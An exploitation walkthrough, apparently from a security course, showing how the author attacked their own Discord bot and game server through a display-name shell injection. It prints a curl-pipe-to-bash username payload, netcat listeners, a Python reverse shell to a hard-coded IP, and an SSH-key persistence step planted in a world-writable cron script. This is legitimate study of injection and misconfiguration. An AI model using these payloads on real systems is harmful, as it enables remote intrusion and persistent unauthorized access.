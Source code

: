 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files


---


## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.  





### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  #  <--- Vulnerable code
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter to logWriter.py.


### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.

  
---



## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.
  
---



## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

### Server process 1

```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
### Server process 2

```
clear
nc -lvnp 8081
```  

In the response.txt file there is the payload that the attacker wants to execute, wich is sent as a response to http get requests to `process 1`.
  



## Exploit

The desired payload can not always be injected directly through the username due to the 32-character limit (including spaces).  
To work around this limitation, a remote listener was set up to serve the full payload.  
The exploit injects a command in the username that makes the bot fetch and execute code from a remote `response.txt` file.  
The username used for this injection was:

```
;curl ip-attacker:8080 | bash;
```

  
---

## Execution

#### 1)Reverse Shell

The file `response.txt` was created with the following content to establish a reverse shell:


```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

#### 2)Listeners
Two listener processes were set up on the attacker machine by running the corresponding server code to serve the malicious payload and receive the reverse shell connection.

#### 3)Username
The Discord username was modified to include a shell injection payload due to the vulnerability in the bot’s input handling.  
The username was set to:

`;curl ip-attacker:8080 | bash;`

#### 4) Triggering the Vulnerability

With the username set, the attacker can trigger the exploit by sending the command `!dice` to the bot.

  

---

## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`

![Nat Configuration](images/Initial_Access.png)

But i did not have access rights to user-b folder, containing the game server's files
![Nat Configuration](images/Screenshot_tree.png)

  
---

## Privilege Escalation

One way to gain access to the `/home/user-b` files was to modify the `server_start.sh` script. Since this script is executed by a cron job with the `@reboot` directive, any modification would be executed automatically on the next server reboot, running with `user-b`'s privileges.

However, relying on server restarts each time to execute arbitrary code would be impractical. Therefore, to gain persistent access as `user-b`, I injected a public SSH key into `user-b`'s `authorized_keys` file. This allowed me to establish an SSH connection directly as `user-b`, granting continuous access to the required files without waiting for server reboots.

First, I generated an SSH key pair using `ssh-keygen`:

```
$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/attacker/.ssh/id_ed25519): /home/attacker/.ssh/innocent_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/attacker/.ssh/innocent_key
Your public key has been saved in /home/attacker/.ssh/innocent_key.pub
The key fingerprint is:
SHA256:choqayqE6Q8JhczNELYiT7055YgjVS9IVNSOgiAP5XM attacker@attacker
The key's randomart image is:
+--[ED25519 256]--+
| *=o+.           |
|B+=+ ..          |
|*BBoEoo          |
|+=o+.B.          |
|+.+.= + S        |
|+o.. o =         |
|oo. . .          |
|..oo             |
|ooo.             |
+----[SHA256]-----+
```

Then, I appended the generated public key to `user-b`'s `authorized_keys` by modifying `server_start.sh` as follows:
```
echo "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzTv8FEFTYsiVF7rOQFz/+Zme92ZgdrAvfe0KavA4xA'
>> /home/user-b/.ssh/authorized_keys" >> server_start.sh
```  
This ensured that, upon the next reboot, the server would automatically add the attacker's public key, granting SSH access as `user-b`.  

## Server Restart

After modifying the `server_start.sh` script to include the attacker’s public SSH key, it was necessary to wait for the server to restart in order to trigger the cron job execution.  
Once the server rebooted, the injected code ran with `user-b` privileges, granting persistent access to the game server files and enabling SSH login as `user-b`.

